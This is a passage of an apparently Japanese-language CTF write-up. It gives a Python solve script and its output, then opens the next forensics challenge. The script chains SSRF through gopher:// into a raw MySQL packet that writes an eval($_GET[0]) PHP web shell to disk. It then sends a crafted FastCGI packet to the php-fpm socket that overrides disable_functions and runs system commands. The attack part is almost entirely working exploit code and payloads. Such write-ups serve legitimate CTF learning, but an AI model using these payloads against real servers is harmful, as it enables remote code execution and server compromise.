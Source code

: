 このペイロードを FastCGI に投げる Python スクリプトを書きましょう。

```python
import requests
import urllib.parse

URL1 = 'http://(省略)/did_you_try_last_year_link.php'
URL2 = 'http://(省略)/tmp_hell/nekoneko.php?0='

# upload nekoneko.php
payload1 = 'gopher://127.0.0.1:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%69%61%6d%73%70%79%64%33%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%46%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%47%45%54%5b%30%5d%29%3b%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%74%6d%70%2f%74%65%73%74%31%2f%6e%65%6b%6f%6e%65%6b%6f%2e%70%68%70%27%01%00%00%00%01'
payload2 = '''
$fp = fsockopen("unix:///run/php/php7.0-fpm.sock");
$out = urldecode("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH61%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%18SCRIPT_FILENAME/var/www/html/config.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3D%04%00%3C%3Fphp%20system%28%27/readFlag%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00");
fwrite($fp,$out);
while (!feof($fp)) {
  echo htmlspecialchars(fgets($fp, 10));
}
fclose($fp);
'''

requests.post(URL1, data={'url': payload1})
print(requests.get(URL2 + urllib.parse.quote(payload2)).content.decode('utf-8'))
```

```
$ python solve.py
ontent-type: text/html; charset=UTF-8

FLAG: inctf{Because_you_knew_what_to_do,_not_a_hard_challenge,_was_it??:P!!!}

-----Made-by-SpyD3r-----
              npu
```

フラグが得られました。

```
inctf{Because_you_knew_what_to_do,_not_a_hard_challenge,_was_it??:P!!!}
```

## Forensics
### ... --- ... (216)
> I recently bought a MiBand and started exploring what crazy stuff I can do with it. Maybe this capture helps you find it yourself.
> 
> Note: Please submit the flag as inctf{sha1(FLAG IN CAPITALS)}
> 
> 添付ファイル: Challenge.pcap
